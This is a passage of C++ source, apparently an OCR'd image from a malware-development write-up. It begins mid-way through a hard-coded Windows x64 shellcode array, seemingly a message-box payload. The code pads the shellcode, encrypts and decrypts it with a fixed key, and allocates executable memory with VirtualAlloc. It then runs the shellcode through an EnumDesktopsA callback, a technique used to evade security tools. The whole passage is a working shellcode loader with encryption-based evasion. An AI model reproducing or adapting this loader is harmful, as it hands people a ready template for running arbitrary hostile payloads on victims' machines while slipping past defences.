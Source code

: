 ```cpp
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + 
  (BLOCK_SIZE - my_payload_len % BLOCK_SIZE) % BLOCK_SIZE;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);  // pad with NOPs
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  uint8_t key[8] = { 0x12, 0x34, 0x56, 0x78, 0x9A, 0xBC, 0xDE, 0xF0 };

  dfc_encrypt_shellcode(padded, pad_len, key);

  printf("encrypted shellcode:\n");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  dfc_decrypt_shellcode(padded, pad_len, key);

  printf("decrypted shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  // allocate and execute decrypted shellcode
  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  return 0;
}
```
